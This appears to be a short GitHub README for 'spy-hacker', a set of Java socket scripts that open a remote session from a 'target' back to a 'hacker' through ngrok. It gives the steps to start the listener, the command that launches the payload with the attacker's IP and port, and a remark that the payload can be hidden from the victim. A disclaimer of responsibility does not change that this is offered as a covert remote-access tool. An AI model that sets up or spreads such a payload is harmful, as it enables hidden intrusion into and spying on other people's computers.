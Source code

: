 # spy-hacker
simple scripts based on the socket to open a session between the target and the hacker over the internet using ngrok tools

- Note :i am not responsible for any bad use of these scripts
1) You need JRE(java runtime environment)
- to launch the scripts
1)  first runs java server script using this command : java SpyHacker
2)  type the local port and waiting the connection of the client
3)  to launch the payload you should pass the ip and number port as an input parameter
4)  type this command to lunch the payload : java -jar payload.jar 192.168.1.1 8080 (as an example for ip address and port number)
5) you can hide the payload (see the video below)
# screenshot
![](spy_hacker_capture.PNG)


